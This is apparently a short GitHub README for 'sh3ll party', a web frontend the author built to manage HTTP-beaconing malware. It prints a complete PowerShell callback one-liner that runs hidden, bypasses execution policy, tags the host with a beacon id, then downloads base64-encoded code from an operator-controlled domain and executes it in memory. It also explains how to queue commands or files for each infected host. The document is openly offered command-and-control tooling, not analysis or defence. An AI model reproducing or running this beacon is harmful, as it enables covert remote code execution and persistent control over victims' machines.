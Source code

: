 sh3ll party
-----------
I had malware that called back at specified intervals via http but no frontend to manage it. This is what I came up with.

Callback script: `powershell -w hidden -ep bypass -nop -c "$i=(New-Object Net.WebClient);$i.Headers.add('hostid','1234567890');IEX([Text.Encoding]::Ascii.GetString([Convert]::FromBase64String($i.DownloadString('http://your.domain.here'))))"`

You have to have a unique beacon id for each beacon. It can be anything. Make it the hostname, ip, mac, whatever.
Set response manually or upload a file. JQuery based datatables make it pretty. A bunch of shitty javascript makes it functional.
